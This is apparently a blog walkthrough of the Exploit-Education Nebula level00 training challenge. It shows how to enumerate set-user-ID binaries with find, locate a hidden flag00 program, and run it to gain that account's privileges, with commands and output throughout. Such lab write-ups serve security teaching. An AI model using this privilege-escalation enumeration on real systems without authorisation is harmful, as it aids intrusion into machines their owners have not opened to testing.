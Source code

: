 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 00"
date:   2019-08-12 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
author_profile: true

---
```

Exploit Education Level 0

### Challenge
This level requires you to find a Set User ID program that will run as the `flag00` account.You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Alternatively, look at the find man page.  

To access this level, log in as `level00` with the password of `level00`.

### Solution
We have to use find to find a file with setuser id bit set
    
    
    ```level00@nebula:~$ find / -perm -4000 2>/dev/null | less ```
        
lets see what the parameters indicate
        
    ```/               it asks find to look for files in root directory
    -perm -4000     its is used to display all files with the setuserid set
    2>/dev/null     gets rid of all error messages```
        
        
    ```level00@nebula:~$ find / -perm -4000 2>/dev/null | less
    /bin/.../flag00
    /bin/fusermount
    /bin/mount
    /bin/pis
    /bin/ping6
    /bin/su
    /bin/umount
    /sbin/mount.ecryptfs_private
    /usr/bin/at
    /usr/bin/chfn
    /usr/bin/chsh
    /usr/bin/gpasswd```

we can see a file named `flag00`. lets investigate 
    ```level00@nebula:/$ cd /bin/.../
    level00@nebula:/bin/...$ ls -la
    total 8
    drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
    drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
    -rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 flag00```

we can see that the `setuserid` bit is set for `flag00`. lets run it
    ```level00@nebula:/bin/...$ ./flag00
    Congrats, now run getflag to get your flag!
    flag00@nebula:/bin/...$ getflag
    You have successfully executed getflag on a target account```

#### Solved